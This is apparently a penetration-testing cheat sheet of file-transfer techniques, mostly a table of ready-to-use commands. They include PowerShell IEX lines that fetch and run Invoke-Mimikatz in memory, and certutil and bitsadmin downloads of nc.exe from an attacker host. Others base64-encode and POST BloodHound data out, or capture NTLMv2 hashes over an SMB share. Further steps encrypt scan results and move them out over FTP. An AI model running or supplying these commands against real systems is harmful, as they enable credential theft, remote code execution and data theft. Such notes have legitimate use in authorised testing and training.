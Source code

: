 cd C:\Windows\Temp; mkdir <...>; cd <...>

| **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 \| iex` | Alias iex |
| `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing \| iex` | Basic Parser |
| `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))` | Encoding b64 |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"` | Download using import |
| `certutil.exe -f -urlcache -split http://10.10.10.32/nc.exe` | Download a file using Certutil |
| `Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql` | Download |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |

Windows -> Linux

Linux -> `impacket-smbserver smbFolder $(pwd) -smb2support`

Windows -> `copy \\<ip>\smbFolder\<file> <file>` -> Get Hashes NTLM v2


Windows via secure way

Windows Encript file

``Powershell
Import-Module .\Invoke-AESEncryption.ps1
Invoke-AESEncryption.ps1 -Mode Encrypt -Key "s3cure-and-unique-p4ssw0rd" -Path .\scan-results.txt
``

Open FTP service on linux

``bash
pip3 install pyftpdlib
python3 -m pyftpdlib --user=pentester --password=s3cure-and-unique-p4ssw0rd -w
``

Windows transfer file via ftp
``
ftp
ftp> open <ip> <port>
User (10.10.14.2:(none)): <user>
Password: <password>
ftp> put scan-results.txt.aes
``

To decrypt the file again

``bash
¬ pwsh
PS> Import-Module Invoke-AESEncryption.ps1
PS> Invoke-AESEncryption -Mode Decrypt -Key "s3cure-and-unique-p4ssw0rd" -Path ./scan-results.txt.aes
``
